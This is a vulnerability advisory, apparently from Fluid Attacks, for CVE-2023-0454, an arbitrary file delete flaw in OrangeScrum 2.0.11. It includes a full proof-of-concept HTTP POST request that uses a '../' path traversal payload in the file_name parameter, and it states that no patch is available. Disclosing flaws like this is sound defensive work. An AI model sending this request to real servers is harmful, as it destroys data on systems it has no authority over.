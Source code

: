 ```yaml
---
slug: advisories/slushii/
title: OrangeScrum 2.0.11 - Arbitrary File Delete via file_name
authors: Carlos Bello
writer: cbello
codename: slushii
product: OrangeScrum 2.0.11
date: 2023-01-30 12:00 COT
cveid: CVE-2023-0454
severity: 8.1
description: OrangeScrum 2.0.11 - Arbitrary File Delete via file_name
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, Arbitrary File Delete
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Arbitrary File Delete via file_name |
| **Code name**         | [Slushii](https://en.wikipedia.org/wiki/Slushii)         |
| **Product**           | OrangeScrum                                              |
| **Affected versions** | 2.0.11                                                   |
| **State**             | Public                                                   |
| **Release Date**      | 2023-01-30                                               |

## Vulnerability

|                       |                                                                                                            |
| --------------------- | -----------------------------------------------------------------------------------------------------------|
| **Kind**              | Lack of data validation - Path Traversal                                                                   |
| **Rule**              | [063. Lack of data validation - Path Traversal](https://docs.fluidattacks.com/criteria/vulnerabilities/063)|
| **Remote**            | Yes                                                                                                        |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:H                                                               |
| **CVSSv3 Base Score** | 8.1                                                                                                        |
| **Exploit available** | No                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0454](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0454)                              |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
delete arbitrary local files from the server. This is possible because
the application uses an unsanitized attacker-controlled parameter to
construct an internal path.

## Vulnerability

This vulnerability occurs because the application uses an unsanitized
attacker-controlled parameter to construct an internal path.

## Exploit

To exploit this vulnerability, we only need to send the following
malicious malicious request to the server.

```txt
POST /projects/delete_file HTTP/1.1
Host: retr02332bughunter.orangescrum.com
Cookie: USER_UNIQ=1515f12e8e8fc20b7a103011dee82b89; USERTYP=2; USERTZ=49; USERSUB_TYPE=0;
User-Agent: Retr02332
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 96
Connection: close

file_name=../../../../../../../../../../../../../var/www/html/orangescrum/app/webroot/hacked.txt
```

## Evidence of exploitation

![vulnerability-code](https://user-images.githubusercontent.com/51862990/214197500-6dc5e3cc-3628-49a7-88c4-b451be1649eb.png)

![before-delete](https://user-images.githubusercontent.com/51862990/214197541-d13f3117-5445-4cea-8b65-9d681ce4b26a.png)

![delete-file-proxy](https://user-images.githubusercontent.com/51862990/214197697-52b886ee-3649-436f-ad70-d4f19a348144.png)

![after-delete](https://user-images.githubusercontent.com/51862990/214197448-5f946fa1-01cf-432d-9bdc-b9fc449e7248.png)

## Our security policy

We have reserved the ID CVE-2023-0454 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-23"
  contacted="2023-01-23"
  replied="2023-01-23"
  confirmed=""
  patched=""
  disclosure="2023-01-30">
</time-lapse>
